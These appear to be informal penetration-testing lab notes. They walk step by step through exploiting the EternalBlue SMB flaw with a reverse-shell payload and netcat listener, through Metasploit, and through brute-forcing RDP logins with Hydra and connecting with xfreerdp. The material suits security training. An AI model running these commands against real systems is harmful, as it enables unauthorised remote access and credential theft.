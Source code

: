   

- _**Windows: SMB Server PSexec LAB**_

https://drive.google.com/file/d/1a2K_GVUyvC22Q_i14gSNZ2DlOk7NdoeW/view?usp=sharing

  

  

### Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)

> ==**_The EternalBlue_**== ⇒ is a name given to a collection of many vulnerabilities that take advantage of smb version one , let u send a a rce and gain access to the entir system and the network .

  

- Nmap and manual exploit
    
    1. _`nmap -sV -p 445 —script=smb-vuln-ms17-010 <ip>`_ ⇒ to check if the target is vuln or not
    
    > `Now we need to clone a repository of AutoBlue-Ms17-010` , that contain a python script to exploit that
    
    1. `chmod +x shell_prep.sh && ./shell_prep.sh`
    2. let it generate a revers shell by msfvenom ⇒ `y`
    3. `LHOST ⇒ <our ip>` && `LPORT ⇒ 1234` && `(1 ⇒ metepreta shell OR 0 ⇒ regular cmd shell )` && `if we do ls we will see the shell file`
    4. `nc -nvlp 1234` ⇒ to open netcat and listner
    5. step back and return to the python script and , `chmod +x eternalblue_exploit<ver>.py`
    6. `python3 eternalblue_exploit<ver>.py <target ip> <shell file from step 4>`
    7. on netcat we will recive a conniction and 😎
    
      
    
      
    

  

- Metasploite and automatic exploit
    
    - `msfconsle` && `search enternalblue ( the aux or the exploit)`
    - `set RHOST ⇒ target ip` && enter ⇒ that will make a meteprater session
    - so well done and we make a rce 😎
    
      
    

  

### Exploiting RDP ( Remote Desktop Protocol )

> Is Gui remote access protocol used to remotely connect and interact with windows system

> Is on Port 3389 as defult

> Rdp maybe configerd on another port

  

- ==_Exploiting RDP_==
    
    1. `_nmap -sV <ip>_` ⇒ to scan for open ports
    2. `msfconsole` && `use auxiliary/scanner/rdp/rdp_scanner` && `set rhost <target ip >` && `set rport < to port that u expect that carry rdp >` ⇒ that use when we dose not know what that port is , and we expected it as a rdp
    3. `hydra -L /usr/share/metasploit…./wordlists/common_user.txt -P /usr/share/metasploit…./wordlists/unix_password.txt rdp://<target ip> -s <if it configerd on the another port than the defult>` ⇒ to bruteforce the rdp
    4. `xfreerdp /u:<username> /p:<the password> /v <target ip>:<port>` ⇒ to open rdp and 😎
    